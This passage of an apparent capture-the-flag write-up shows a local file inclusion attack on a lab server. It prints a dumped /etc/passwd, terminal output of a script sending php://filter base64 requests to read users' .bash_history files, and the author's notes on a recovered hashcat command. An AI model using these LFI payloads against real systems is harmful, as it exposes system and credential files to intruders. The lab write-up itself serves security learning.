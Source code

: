 ```tsx
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```

The script worked

# Exploit

There are 2 users on this server: `blue` and `red` (not include `root`) → I look through their `.bash_history`:

```tsx
┌──(kali㉿kali)-[~/SublimeText]
└─$ python3 fli.py
File input: /home/red/.bash_history
Sending request: http://10.10.174.11/index.php?page=php://filter/convert.base64-encode/resource=/home/red/.bash_history
File content: 

                                                                                                                    
┌──(kali㉿kali)-[~/SublimeText]
└─$ python3 fli.py
File input: /home/blue/.bash_history
Sending request: http://10.10.174.11/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history
File content: 

echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

The `blue` user used ********hashcat******** to generate a password list using the `.reminder` file which contains the password hash or hashes and use tag `-r` to specify the rule for this password lists.
